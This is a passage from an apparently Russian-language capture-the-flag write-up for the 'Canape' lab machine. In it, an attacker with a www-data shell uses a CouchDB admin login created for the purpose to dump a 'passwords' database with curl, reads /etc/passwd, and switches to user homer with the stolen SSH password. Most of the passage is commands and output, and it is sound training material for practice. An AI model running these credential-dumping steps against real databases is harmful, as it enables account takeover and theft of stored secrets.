 Или так:
```text
www-data@canape:/$ curl -X GET --user '3V1LH4CK3R:qwerty123' http://127.0.0.1:5984/passwords
{"db_name":"passwords","update_seq":"46-g1AAAAFTeJzLYWBg4MhgTmEQTM4vTc5ISXLIyU9OzMnILy7JAUoxJTIkyf___z8rkR2PoiQFIJlkD1bHik-dA0hdPGF1CSB19QTV5bEASYYGIAVUOp8YtQsgavcTo_YARO39rER8AQRR-wCiFuhetiwA7ytvXA","sizes":{"file":222462,"external":665,"active":1740},"purge_seq":0,"other":{"data_size":665},"doc_del_count":0,"doc_count":4,"disk_size":222462,"disk_format_version":6,"data_size":1740,"compact_running":false,"instance_start_time":"0"}
```

Таким образом, попросим показать все, что содержится в базе данных `passwords`:
```text
www-data@canape:/$ curl -X GET http://3V1LH4CK3R:qwerty123@127.0.0.1:5984/passwords?include_docs=true
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"},"doc":{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"},"doc":{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"},"doc":{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"},"doc":{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}}
]}
```

Админ негодует :rage:

Нас интересует ssh-креды, а именно запись с id `739c5ebdf3f7a001bebb8fc4380019e4`:
```text
www-data@canape:/$ curl -X GET http://3V1LH4CK3R:qwerty123@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
```

Смотрим имя пользователя:
```text
www-data@canape:/$ cat /etc/passwd
...
homer:x:1000:1000:homer,,,:/home/homer:/bin/bash
...
```

И забираем флаг:

```text
www-data@canape:/$ su - homer
Password: 0B4jyA0xtytZi7esBNGp

homer@canape:~$ whoami
homer

homer@canape:~$ id
uid=1000(homer) gid=1000(homer) groups=1000(homer)
```
